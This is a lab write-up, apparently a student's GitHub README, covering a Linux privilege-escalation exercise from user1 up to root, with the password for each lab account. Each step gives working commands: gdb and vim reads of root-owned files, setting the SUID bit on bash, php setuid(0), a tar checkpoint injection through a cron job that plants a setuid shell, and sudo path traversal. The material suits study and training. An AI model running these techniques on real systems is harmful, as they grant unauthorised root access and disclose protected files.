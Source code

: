 # Privelege Escalation Laboratory 3
## This laboratory work is based on privelege escalation tecnhiques by exploiting different types of binaries.


### user1
**Pass:	WelcomeToCodwer**

We start with user1 and have to make our way up to user6 and then take root.

![image](https://github.com/cbr1N/codwer/assets/95069685/a102755e-85e4-4e1c-851e-43a40f126d39)

Here we should exploit the binary `/usr/bin/gdb` so that we can read the password for user2 from `/root/user2.txt`.
GTFOBins offers a file read exploit using `gdb`.

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.
This requires that GDB is compiled with Python support.

```
gdb -nx -ex 'python print(open("/root/user2.txt").read())' -ex quit
```

This is the command we use to read the contents of `/root/user2.txt`.

![image](https://github.com/cbr1N/codwer/assets/95069685/1725015a-ec04-410d-b746-8e3da61081f7)


### user2
**Pass: WolfMountedFastnessNappy**

![image](https://github.com/cbr1N/codwer/assets/95069685/c44a3255-67df-4603-8f8b-771d72e225f8)

To get the password for user3 we hve to exploit the binary `vim.basic` that is stored in `/usr/bin`. 

The exploit is pretty simple and it also is on the GTFOBins website. Just search for `vim`.
Here we use the file read exploit. 

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
vim /root/user3.txt
```

![image](https://github.com/cbr1N/codwer/assets/95069685/086ec872-30e0-4433-ae28-4db021307435)


### user3
**Pass: PebblyClaritySuperiorMournful**

![image](https://github.com/cbr1N/codwer/assets/95069685/d21b3cc1-edbd-4514-a827-41370e9bfb39)

To get to the 4th user we have to exploit the `python3.11` binary so that we can gain read access to `/root/user4.txt`.

This one was a little tricky. I found the solution on juggernaut-sec. In this example we will set the SUID bit on a binary.

The easiest way to do this would be to assign the SUID bit to bash or any other shell binary; however, if we wanted to get creative, we could add the SUID bit to any binary found on GTFObins in the SUID section, and then just follow the steps to get root. After setting the SUID bit we use the `/bin/bash -p` command to drop in a root shell.
```
ls -l /bin/bash
python3 -c 'import os;os.chmod("/bin/bash", 0o4755)'
/bin/bash -p
cat /root/user4.txt
```

![image](https://github.com/cbr1N/codwer/assets/95069685/6fda0215-d35d-48d7-867a-010dbfa90350)


### user4
**Pass: JustifierDetachedCuppedEndurable**

![image](https://github.com/cbr1N/codwer/assets/95069685/d79eb96e-d6e5-47e7-a009-be79de42bb57)

Here the task is to exploit the `php8.2` binary. One common php exploit is to execute a command that we want as root with teh help of `posix_setuid(0)` 0 meaning the user id of root of course.

```
php -r "posix_setuid(0); system('cat /root/user5.txt');"
```

After setting our user id to 0 for executing this specific command, that being `cat /root/user5.txt` we easily get the password for user5.

![image](https://github.com/cbr1N/codwer/assets/95069685/286d13cb-4bea-4f03-a609-ad792301da2e)


### user5
**Pass: VentureRangedConveneVirus**

![image](https://github.com/cbr1N/codwer/assets/95069685/2dd05354-767c-48dc-8a26-96349dc0ceea)

To get past this task we have to exploit a cronjob. To be more exact we have to use command injection through a cron job. We also have the `pspy` script so that we can see the processes without root permissions.

![image](https://github.com/cbr1N/codwer/assets/95069685/cedbc69c-a995-4f00-975c-3680febd09f0)

Here are all the commands that are being executed every 50 seconds:

`/usr/bin/rm /home/user5/backup.tar.gz`  This command removes the file `backup.tar.gz` in the /home/user5 directory.

`/usr/sbin/CRON -f`  These are instances of the CRON daemon, which is responsible for executing scheduled tasks. The `-f` flag indicates running in the foreground.

`/bin/sh -c cd /home/user5 && /usr/bin/tar -czuf backup.tar.gz *`  This shell command changes the directory to `/home/user5` and creates a tarball named `backup.tar.gz` containing all files (`*`).

`/bin/sh -c cd / && run-parts --report /etc/cron.hourly`  This shell command changes the directory to the root directory (`/`) and runs all scripts in `/etc/cron.hourly`, reporting their execution.

`/bin/sh -c sleep 50 && /usr/bin/rm /home/user5/backup.tar.gz`  This command sleeps for 50 seconds and then removes the `backup.tar.gz` file from the `/home/user5` directory.

`/usr/bin/tar -czuf backup.tar.gz README.md pspy`  This tar command creates a compressed tarball named `backup.tar.gz` containing the files `README.md` and `pspy`.

`gzip`  This command is used to compress files using the gzip algorithm.

To exploit this cronjob we have to follow these exact steps:
```
echo "cp /bin/bash /tmp/myshell; chmod +s /tmp/myshell" > /home/user5/pwn.sh
chmod +x /home/user/pwn.sh
touch /home/user5/--checkpoint=1
touch /home/user5/--checkpoint-action=exec=sh\ pwn.sh
/tmp/myshell -p
cat /root/user6.txt
```

We created a script called `pwn.sh` in the `/home/user5` directory. This script is designed to copy the `/bin/bash` executable to `/tmp/myshell` and then change its permissions so that it can be run with elevated privileges.

We changed the permissions of the `pwn.sh` script to make it executable. This allows us to run the script later.

We created an empty file named `--checkpoint=1` in the `/home/user5` directory. This file is part of our strategy to exploit a specific parsing behavior in some programs.

We created another file named `--checkpoint-action=exec=sh pwn.sh` in the `/home/user5` directory. This file is intended to trigger the execution of our `pwn.sh` script when a checkpoint is reached by certain programs.

Finally, we executed the `/tmp/myshell` shell with the `-p` option. This preserves the effective user ID, allowing us to run the shell with root privileges. Since we had previously set the setuid bit on this shell, it runs with the permissions of the root user, effectively giving us a root shell.

![image](https://github.com/cbr1N/codwer/assets/95069685/3245d0c4-a95e-481e-adf2-e56901a75a30)


### user6
**Pass: RearViewUnscathedSantaRamble**

![image](https://github.com/cbr1N/codwer/assets/95069685/37e20fb3-d0fa-454e-9ae9-24fb9529fd15)

Here we have to use command injection exploiting the sudo rights given to user6.
As we can see user6 can run any Python 3 script located in the `/root/` directory as the root user without needing to provide a password. 

This exercise was a tricky one. We don't actually need command injection. What we really need to use is path traversal. But before that we should make some preparations.

Firstly we create a `.py` file. For example `lol.py`. We write a python sript that renames the file `password.txt` to `password.py` so that we will be able to open it using the `sudo python3` method.
But to actually run this script from our `/home/user6` path we can trick the system using the path traversal technique.

If the file path uses wildcards, we may execute arbitrary files.
In short, we can refer to files in different directories which the system owner unintended.

```
sudo -l
echo 'import os; os.rename("/root/password.txt", "/root/password.py")' > lol.py
sudo python3 /root/../../../home/user6/lol.py
sudo python3 /root/password.txt
```

![image](https://github.com/cbr1N/codwer/assets/95069685/3420331b-7898-4353-a8cb-b917fec8e7b4)


### root
**Pass: CapsAndMissesEverywhere**


## Lessons learned
I have learned a lot of things working on these tasks.

Understanding system components like `gdb`, `vim`, `python3`, `php8.2` and cron jobs. Knowing how these components operate and interact with the system is crucial for identifying potential avenues for exploitation.

Of course the most important part were the exploit techniques like file read exploits, setting SUID bits, command injection and path traversal.


## Useful links
- [https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-path-traversal-privilege-escalation/]

- [https://juggernaut-sec.com/capabilities/#Exploiting_Various_Capabilities]

- [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities]

- [https://book.hacktricks.xyz/pentesting-web/command-injection]
